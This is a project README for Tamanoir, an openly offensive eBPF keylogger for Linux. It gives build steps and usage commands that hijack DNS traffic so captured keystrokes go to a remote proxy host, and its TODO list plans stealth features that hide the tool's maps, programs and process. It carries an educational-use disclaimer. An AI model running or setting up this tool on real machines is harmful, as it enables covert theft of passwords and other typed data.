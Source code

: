 <div align="center">
  <h1> Tamanoir <br> A KeyLogger using eBPF 🐝 </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <p><small>
    <i>
      A large anteater of Central and South America, Myrmecophaga tridactyla
    </i>
  </small></p>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## 🚀 Setup

You need a Linux based OS.

### ⚒️ Build from source

To build from source, make sure you have:

- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

#### 1. Build ebpf program

```
cd tamanoir-ebpf
cargo build --release
```

#### 2. Build user space program

```
cargo build --release
```

This will produce an executable file at `target/release/tamanoir` that you can copy to a directory in your `$PATH`

### 📥 Binary release

You can download the pre-built binaries from the [release page](https://github.com/pythops/tamanoir/releases)

<br>

## 🪄 Usage

### Tamanoir

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip <DNS proxy IP> \
              --hijack-ip <locally configured DNS server IP> \
              --layout <keyboard layout> \
              --iface <network interface name>
```

for example:

```
RUST_LOG=info sudo -E tamanoir \
              --proxy-ip 192.168.1.75 \
              --hijack-ip 8.8.8.8 \
              --layout 0 \
              --iface wlan0
```

Currenly, there are two supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

### DNS Proxy

On a remote host, make sure you have [docker](https://docs.docker.com/engine/install/) installed.

#### 1. Build proxy image

```
cd proxy
docker build -t proxy .
```

#### 2. Run proxy

> [!NOTE]
> Make sure port 53 is available

```
docker run --rm -it -p 53:53/udp -e PAYLOAD_LEN=8 proxy
```

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make `Tamanoir` stealth (hide used ebpf maps and programs, process pid ...)

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
